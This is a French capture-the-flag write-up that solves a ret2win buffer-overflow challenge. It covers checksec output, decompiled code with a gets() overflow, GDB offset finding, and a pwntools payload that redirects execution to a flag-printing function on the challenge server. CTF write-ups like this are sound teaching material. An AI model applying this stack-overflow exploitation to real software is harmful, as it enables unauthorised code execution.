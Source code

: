 # Pwn0x01

```md
return to win!!!

nc 35.180.44.229 1235
```

On comprends à la description qu'il va s'agir d'un ret2win. [L'exécutable](./task_new) est fournit vérifions si des sécurités sont activées :

```console
$ checksec --file=task_new
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   77 Symbols	  No	0		3	task_new
```

Visiblement pas de PIE ni de canary, essayons le :

```console
$ ./task_new 
hey Morty give an adress for my portal Gun
AAAA
```

Le programme nous demande une saisie et s'arrête, essayons de le reverse pour mieux le comprendre.

## Analyse statique

Avec Ghidra on retrouve ces trois fonctions :

```C
undefined4 main(void)
{
  ignore_me_init_buffering(&stack0x00000004);
  setvbuf(_stdout,(char *)0x0,2,0);
  puts("hey Morty give an adress for my portal Gun");
  portalGun();
  return 0;
}
```

```C
void portalGun(void)
{
  char local_4c [68];
  
  gets(local_4c);
  return;
}
```

```C
void callMe(int param_1)
{
  char local_50 [64];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 == (FILE *)0x0) {
    puts("No flag contact an admin.");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  if (param_1 == L'\xdeadbeef') {
    fgets(local_50,64,local_10);
    printf(local_50);
  }
  return;
}
```

La fonction `main` ne nous intéresse pas trop elle ne fait qu'appeler `portalGun`, qui elle par contre est vulnérable à un buffer overflow :

```C
  char local_4c [68];
  
  gets(local_4c);
```

Et enfin `callMe` va gentillement aller chercher le flag pour nous :

```C
  local_10 = fopen("flag.txt","r");
```

Puis nous l'affiche à condition de l'appeler avec `0xdeadbeef` en argument :

```C
  if (param_1 == L'\xdeadbeef') {
    fgets(local_50,64,local_10);
    printf(local_50);
  }
```

Il va donc falloir utiliser le buffer overflow de `portalGun` pour appeler `callMe` avec le bon argument.

## Analyse dynamique

Cherchons l'offset nécessaire pour rediriger l'exécution du programme sous GDB :

```gdb
gef➤  disas portalGun 
Dump of assembler code for function portalGun:
   0x080486a5 <+0>:	push   ebp
   0x080486a6 <+1>:	mov    ebp,esp
   0x080486a8 <+3>:	push   ebx
   0x080486a9 <+4>:	sub    esp,0x44
   0x080486ac <+7>:	call   0x8048729 <__x86.get_pc_thunk.ax>
   0x080486b1 <+12>:	add    eax,0x194f
   0x080486b6 <+17>:	sub    esp,0xc
   0x080486b9 <+20>:	lea    edx,[ebp-0x48]
   0x080486bc <+23>:	push   edx
   0x080486bd <+24>:	mov    ebx,eax
   0x080486bf <+26>:	call   0x8048430 <gets@plt>
   0x080486c4 <+31>:	add    esp,0x10
   0x080486c7 <+34>:	nop
   0x080486c8 <+35>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x080486cb <+38>:	leave
   0x080486cc <+39>:	ret
End of assembler dump.

gef➤  br *portalGun+39
Breakpoint 1 at 0x80486cc

gef➤  r <<< $(python3 -c 'print("A"*76+"B"*4)')
```

```gdb
──────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x42424242
──────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "task_new", stopped 0x42424242 in ?? (), reason: SIGSEGV
```

Le programme crash car il n'arrive pas à accèder à l'adresse que nous avons injecté : il faudra un offset de 76 bytes.

## Exploit

PIE est désactivé nous pouvons donc utiliser cette adresse de `portalGun` :

```console
gef➤  info func callMe
All functions matching regular expression "callMe":

Non-debugging symbols:
0x080485c6  callMe
```

Notre payload sera un padding de 76 bytes comme dans l'analyse dynamique, suivie de l'adresse de `callMe` vers laquelle on veut rediriger le programme, puis les arguments nécessaires (car les arguments sont transmis depuis la stack en 32 bits) :

```python
offset = 76
callMe_addr = 0x080485c6

payload = b"".join([
    b"A"*offset,
    p32(callMe_addr),
    b"B"*4,
    p32(0xdeadbeef),
])
```

En testant localement le payload, on comprends aussi que c'est le deuxième argument passé à `callMe` qui doit être `0xdeadbeef`, on rajoute donc un padding de 4 bytes.

Enfin, ce [script](./exploit.py) nous permet d'envoyer notre payload avec `pwntools` :

```console
$ python3 exploit.py 
[+] Opening connection to 35.180.44.229 on port 1235: Done

b'StarHack{YOU_WON!!}\n'

[*] Closed connection to 35.180.44.229 port 1235
```